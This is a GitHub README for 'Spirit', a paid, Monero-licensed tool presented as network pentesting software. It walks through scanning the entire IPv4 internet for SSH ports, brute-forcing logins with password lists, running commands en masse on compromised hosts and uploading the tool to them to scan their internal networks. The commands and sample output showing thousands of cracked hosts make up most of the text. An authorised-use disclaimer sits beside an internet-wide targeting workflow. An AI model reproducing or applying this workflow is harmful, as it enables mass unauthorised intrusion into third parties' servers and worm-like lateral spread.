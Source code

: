 # Spirit - Network Pentest Tools

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)
```bash
$ wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
$ curl -OL https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
```
> NOTE: Plenty of fake Spirit clones are being distributed, make sure to verify you're running the original by checksum: `$ sha256sum -c spirit.sum`

> [`$ ./spirit --help`](./HELP) shows you all the included tools. \
Most commands have subcommands `./spirit <command> --help`

## Demo
[![asciicast](https://asciinema.org/a/645079.svg)](https://asciinema.org/a/645079?autoplay=true&loop=true)

## Quick Start
```bash
# download spirit
wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
# unpack spirit
tar xvf spirit.tgz
./spirit --help

# install masscan
sudo apt install masscan
# copy masscan into your current working directory
cp `which masscan` .

# start the show! <class-A> <port1,port2,port3> <speed> 
# ./spirit ports generates 3 random ports 1-65535 and keeps track of
# already generated port numbers in ports.lst
./go.sh 172 $(./spirit ports) 50000
```

## Help us spread the word about Spirit!
Refer Spirit in your community or work environment and earn up to 30% in Referral Fees.

Start here: `$ ./spirit partner`

Generate your Referral Code which grants 10% discount on any Spirit plan.

## Upgrade Spirit automaticaly
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```

## Support
- [GitHub Issue](https://github.com/theaog/spirit/issues/new)
- [Telegram](https://t.me/pentestspirit)

## Example usage for SSH brute flow TLDR;
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse this open.lst to format the data, so that spirit can understand it.
$ ./spirit parse
INFO created h.lst in HOST:PORT format

# Optional: create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Grab SSH banners to make sure your target version is running on the host. NOTE: Makes a backup of h.lst to h.lst.bak
$ ./spirit banner
INFO backing up h.lst to h.lst.bak
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created h.lst in HOST:PORT:BANNER format
head -n1 h.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Add a password list, spirit will automatically load user:pass from a p.lst file.
# NOTE: if p.lst is not present, Spirit uses an internal passfile
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
failed connections statistics:
(    7)  ssh: closed network connection 30s timeout
(    7)  total failed
results stored in:
- found.ssh # for quick manual connect
- found.login # user:pass combinations that worked
- found.lst # used by `spirit auto-ssh` for connecting en-masse
[26803]hosts [4000]bruted [3000]found [19803]blocked

# Connect to all your found hosts automatically & run commands.
$ ./spirit auto-ssh --command 'whoami && uptime'
# Upload spirit to all hosts and scan the LAN
$ ./spirit auto-ssh --upload ./spirit --command '/tmp/spirit scan --lan'
```

## Spirit is Free (sorta)
Scanning port 22 is unlimited, any other port requires a license.

## You can unlock Spirit's full functionality directly from the CLI by obtaining a license.
```bash
$ ./spirit buy
Monero only, you can convert other crypto assets to XMR on https://tradeogre.com
If you have any issue w/ the payment-flow, contact us https://github.com/theaog/spirit/issues
? Select your Spirit version::
  ▸ Basic TRIAL $10 (3 days) [1 Server]
    Basic $100 (30 days) [3 Servers]
    Pro $200 (30 days) [7 Servers]
    Ultra $500 (30 days) [15 Servers]
    Referral code
```

# Support our development
## Monero (XMR) thank you! (our favorite)
`895LJnKcfTv7NHf7SN1zz5UzhBRwwvdR8NYLvXNr54jJ3GXghBoyfBKLp2dL4GcYohQatRnigct8zgK6utkjjeBxVNsky1s`

![xmrqr](asset/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

> NOTICE: rumors have been circulating that `spirit` contains a backdoor -- that's not true, we would never do that. We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

Spirit is clean software the only data it sends home is your machine-id to verify the license.

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.
